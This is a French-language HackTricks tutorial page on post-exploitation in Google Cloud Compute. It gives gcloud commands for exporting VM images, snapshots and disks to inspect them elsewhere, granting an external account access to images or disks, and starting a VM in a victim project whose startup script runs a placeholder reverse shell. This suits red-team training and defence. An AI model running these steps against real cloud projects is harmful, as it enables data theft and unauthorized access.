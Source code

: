 # GCP - Post Exploitation Compute

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (Réseautage), consultez :

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter les images localement

Cela permettrait à un attaquant d'**accéder aux données contenues dans des images déjà existantes** ou de **créer de nouvelles images de VMs en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant d'effectuer cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et certainement **de privilèges sur cloudbuild**, car c'est le **service** qui sera demandé pour effectuer l'exportation.\
De plus, pour que cela fonctionne, le SA de codebuild et le SA de compute ont besoin de permissions privilégiées.\
Le SA cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter les instantanés et disques localement

Il n'est pas possible d'exporter directement des instantanés et des disques, mais il est possible de **transformer un instantané en disque, un disque en image** et, suivant la **section précédente**, d'exporter cette image pour l'inspecter localement.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecter une image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** depuis laquelle un attaquant **a créé une image,** il est possible d'accorder à un compte externe l'accès à l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créer une nouvelle VM à partir de cela :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner l'accès à votre compte externe via l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire exécuter un reverse shell par les métadonnées** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspecter un instantané/Disque en l'attachant à une VM

Avec l'objectif d'accéder aux **données stockées dans un disque ou un instantané, vous pourriez transformer l'instantané en disque, un disque en image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un instantané, accordez l'accès sur l'instantané ou créez un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montez le disque à l'intérieur de la VM :

1.  **SSH dans la VM** :

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifiez le disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. En général, vous pouvez le trouver sous `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatez et montez le disque** (s'il s'agit d'un nouveau disque ou d'un disque brut) :
*   Créez un point de montage :

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montez le disque :

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si vous **ne pouvez pas donner accès à un projet externe** au snapshot ou au disque, vous devrez **effectuer ces actions à l'intérieur d'une instance dans le même projet que le snapshot/disque**.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
